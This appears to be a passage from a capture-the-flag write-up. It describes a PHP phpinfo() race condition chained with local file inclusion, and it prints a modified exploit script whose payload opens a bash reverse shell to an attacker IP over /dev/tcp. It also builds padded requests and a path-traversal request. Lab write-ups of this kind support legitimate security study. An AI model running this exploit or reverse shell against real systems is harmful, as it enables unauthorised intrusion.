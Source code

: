 That include the filename where this file is stored!

That file only exists for a fraction of a second, but sometimes I can
win the race and visit the page before it goes away. Insomnia puts a lot
of padding into the HTTP headers to increasing the processing time and
therefore the chances that attacker can win the race.

### Script Modifications

Insomnia provides [a Python
script](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)
that will exploit this. I'll download it, but it requires someediting to
get it to work in this case.

First, I'll collect some variables I'll need at the top:



    local_ip = "10.10.14.24"
    local_port = 443
    phpsessid = "ehjpe8sp040ma068aen884obr7"



The `PHPSESSID` will need to point to a valid session. Were I re-writing
this from scratch, I'd have the script just log in and get a session id
that way, but there's too much going on here I don't want to mess with
now.

Now, I'll change a bunch in the `setup` function at the top:



    def setup(host, port):
        TAG="Security Test"
        PAYLOAD="""%s\r <?php system("bash -c 'bash -i >& /dev/tcp/%s/%d 0>&1'");?>\r""" % (TAG, local_ip, local_port)
        REQ1_DATA="""-----------------------------7dbff1ded0714\r
    Content-Disposition: form-data; name="dummyname"; filename="test.txt"\r
    Content-Type: text/plain\r
    \r
    %s
    -----------------------------7dbff1ded0714--\r""" % PAYLOAD
        padding="A" * 5000
        REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
    Cookie: PHPSESSID=""" + phpsessid + """; othercookie="""+padding+"""\r
    HTTP_ACCEPT: """ + padding + """\r
    HTTP_USER_AGENT: """+padding+"""\r
    HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
    HTTP_PRAGMA: """+padding+"""\r
    Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
    Content-Length: %s\r
    Host: %s\r
    \r
    %s""" %(len(REQ1_DATA),host,REQ1_DATA)
        #modify this to suit the LFI script   
        LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
    User-Agent: Mozilla/4.0\r
    Proxy-Connection: Keep-Alive\r
    Cookie: PHPSESSID=""" + phpsessid + """\r
    Host: %s\r
    \r
    \r
    """
        return (REQ1, TAG, LFIREQ)
